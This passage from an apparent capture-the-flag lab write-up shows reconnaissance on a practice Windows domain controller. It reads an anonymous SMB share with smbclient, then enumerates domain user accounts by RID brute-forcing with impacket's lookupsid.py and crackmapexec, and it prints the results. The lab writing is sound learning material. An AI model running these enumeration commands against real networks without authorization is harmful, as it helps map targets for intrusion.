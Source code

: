 <figure><img src=".gitbook/assets/image (67).png" alt=""><figcaption><p>1</p></figcaption></figure>

Reading the shares we have read access on.

```bash
smbclient \\\\10.10.15.112\\VulnNet-Business-Anonymous

# After reading all the files, we got some usernames:
Johnny Leet --> sync manager
Alexa Whitehat --> business manager
Jack Goldenhand --> 
Tony Skid --> internal infrastructure.
```

Since we have read access to `IPC share`. We are able to list the domain users as anonymous using an impacket tool called **lookupsid.py or even Crackmapexec.**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# using lookusid
lookupsid.py anonymous@10.10.15.112 | grep SidTypeUser

# results.
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)

# we can use some linuxfu to trim the results:
lookupsid.py anonymous@10.10.15.112 | grep SidTypeUser | awk '{print $2}' | cut -d '\' -f 2
# output.
Administrator
Guest
krbtgt
WIN-2BO8M1OE1M1$
enterprise-core-vn
a-whitehat
t-skid
j-goldenhand
j-leet

# using crackmapexec.
crackmapexec smb 10.10.15.112 -u 'anonymous' -p '' --rid-brute

# results.
We got same results with crackmapexec also.
```
{% endcode %}
